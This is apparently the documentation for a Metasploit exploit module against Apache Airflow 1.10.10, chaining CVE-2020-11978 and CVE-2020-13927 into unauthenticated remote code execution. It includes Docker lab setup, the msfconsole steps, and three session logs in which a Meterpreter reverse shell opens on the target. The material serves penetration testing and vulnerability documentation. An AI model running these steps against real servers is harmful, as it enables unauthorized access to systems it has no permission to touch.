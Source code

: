 ## Vulnerable Application

The vulnerability affects:

    * Apache Airflow versions less than 1.10.11

This module was successfully tested on:

    * Apache Airflow 1.10.10 installed with Docker on Debian 10
    * Apache Airflow 1.10.10 installed with Docker on Kali Linux 6.3.0
    * Apache Airflow 1.10.10 installed with Docker on Windows 10

Note that this module has not been tested on non-Docker installations of Airflow.

### Description

This module exploits an unauthenticated command injection vulnerability by combining
two critical vulnerabilities in Apache Airflow 1.10.10. The first, CVE-2020-11978, is
an authenticated command injection vulnerability found in one of Airflow's example DAGs,
`example_trigger_target_dag`, which allows any authenticated user to run arbitrary OS
commands as the user running Airflow Worker/Scheduler. The second, CVE-2020-13927, is a
default setting of Airflow 1.10.10 that allows unauthenticated access to Airflow's
Experimental REST API to perform malicious actions such as creating the vulnerable DAG
above. The two CVEs taken together allow vulnerable DAG creation and command injection,
leading to unauthenticated remote code execution.

### Setup

Install Apache Airflow v1.10.10 with a `docker-compose.yml` file below
([reference](https://github.com/pberba/CVE-2020-11978/blob/main/docker-compose.yml)):
```yml
version: '3'

services:
  x-airflow-common:
    &airflow-common
    image: apache/airflow:1.10.10
    environment:
      &airflow-common-env
      AIRFLOW__WEBSERVER__AUTHENTICATE: 'true'
      AIRFLOW__WEBSERVER__AUTH_BACKEND: 'airflow.contrib.auth.backends.password_auth'
      AIRFLOW__CORE__LOAD_EXAMPLES: 'true'
    user: "${AIRFLOW_UID:-50000}:${AIRFLOW_GID:-50000}"
  airflow-webserver:
    <<: *airflow-common
    entrypoint: ["/bin/bash", "-c", "pip install 'apache-airflow[password]==1.10.10' --user && airflow initdb && (airflow webserver & airflow scheduler)"]
    ports:
      - 8080:8080
    healthcheck:
      test: ["CMD", "curl", "--fail", "http://localhost:8080/health"]
      interval: 10s
      timeout: 10s
      retries: 5
    restart: always
```

Run:

```sh
docker-compose up
```

and wait for the health check logs to indicate a 200 status message, e.g.:

```log
airflow-webserver_1  | 127.0.0.1 - - [11/Aug/2023:11:48:00 +0000] "GET /health HTTP/1.1" 200 187 "-" "curl/7.64.0"
```

## Verification Steps

- [x] Install Apache Airflow v1.10.10 as described above.
- [x] Verify that the container is in good health by looking at the logs or navigating to
`http://<TARGET_IP>:8080/admin/airflow/login`.
- [x] Start `msfconsole`.
- [x] Do: `use exploit/linux/http/apache_airflow_dag_rce`.
- [x] Do: `set RHOSTS <TARGET_IP>`.
- [x] Do: `set LHOST eth0`.
- [x] Do: `exploit`.

## Options

### TARGETURI (required)

This is the base path of the Airflow webserver. Defaults to `/`.

### RPORT (required)

This is the port of the Airflow webserver. Defaults to `8080`, although Docker port
mappings or custom installations can change it.

### DAG_PATH (required)

This is the path to the vulnerable example DAG `example_trigger_target_dag`, as accessed
from the Airflow Experimental REST API. Defaults to `/api/experimental/dags/example_trigger_target_dag`.

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 120 seconds.

## Scenarios

### Apache Airflow 1.10.10 Installed with Docker on Debian 10

* Using default TARGET 0 - Unix Command

```msf
msf > use exploit/linux/http/apache_airflow_dag_rce 
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 192.168.245.139
RHOSTS => 192.168.245.139
msf exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-09-17 14:33:46+00:00: manual__2023-09-17T14:33:46+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.139:42718) at 2023-09-17 22:34:15 +0800
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 8603acff8812
OS              : Linux 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Apache Airflow 1.10.10 Installed with Docker on Kali Linux 6.4.0

* Using default TARGET 0 - Unix Command

```msf
msf > use exploit/linux/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-09-17 14:23:37+00:00: manual__2023-09-17T14:23:37+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 172.18.0.2:55150) at 2023-09-17 22:24:10 +0800

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : e4879badf9e2
OS              : Linux 6.4.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.4.11-1kali1 (2023-08-21)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Apache Airflow 1.10.10 Installed with Docker (WSL Backend) on Windows 10

* Using default TARGET 0 - Unix Command

* Sometimes, the first Meterpreter session fails, but the second one opens successfully.

```msf
msf > use exploit/linux/http/apache_airflow_dag_rce 
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 192.168.50.180
RHOSTS => 192.168.50.180
msf exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-21 02:03:23+00:00: manual__2023-08-21T02:03:23+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.50.180 - Meterpreter session 1 closed.
[*] Meterpreter session 2 opened (192.168.245.128:4444 -> 192.168.245.1:65490) at 2023-08-21 10:05:05 +0800

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 8e6653049826
OS              : Linux 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
